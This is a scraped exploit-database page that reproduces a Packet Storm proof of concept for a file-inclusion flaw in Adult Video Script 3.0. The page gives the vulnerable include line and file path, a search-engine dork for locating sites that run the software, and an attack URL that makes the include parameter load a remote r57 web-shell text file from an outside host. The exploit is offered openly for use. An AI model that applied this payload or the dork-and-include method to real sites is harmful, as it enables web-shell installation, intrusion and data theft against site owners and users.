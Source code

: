 ```yaml
---
title: Adult Video Script 3.0 File Inclusion exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:173103&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-06-24
fetch_date: 2025-10-04T11:44:28.290610
---
```


# Adult Video Script 3.0 File Inclusion exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Adult Video Script 3.0 File Inclusion

2023-06-23 | CVSS 7.1

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:173103
====================================================================================================================================
| # Title : Adult Video Script 3.0 RFI /LFI Vulnerability |
| # Author : indoushka |
| # Tested on : windows 10 Français V.(Pro) / browser : Mozilla firefox 69.0(32-bit) |
| # Download : https://update.avscms.com/files/avscms-8.2-full.zip |
| # Dork : Powered by AVSCMS |
====================================================================================================================================

P0C :

[+] Dorking İn Google Or Other Search Enggine.

[+] R/L File Inclusion :

Line : 20 = include_once ('./lang/'.$lang_include);
Function : include_once
Variables :$lang_include
C:\web\www\upload\siteadmin\editor_files\image.php

[+] http://127.0.0.1/www/lustubecom/siteadmin/editor_files/image.php?lang_include=http://www.dcvi.net/r57.txt?

Greetings to :=========================================================================================================================
jericho * Larry W. Cashdollar * brutelogic* hyp3rlinx* 9aylas * shadow_00715 * LiquidWorm* moncet |
=======================================================================================================================================
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)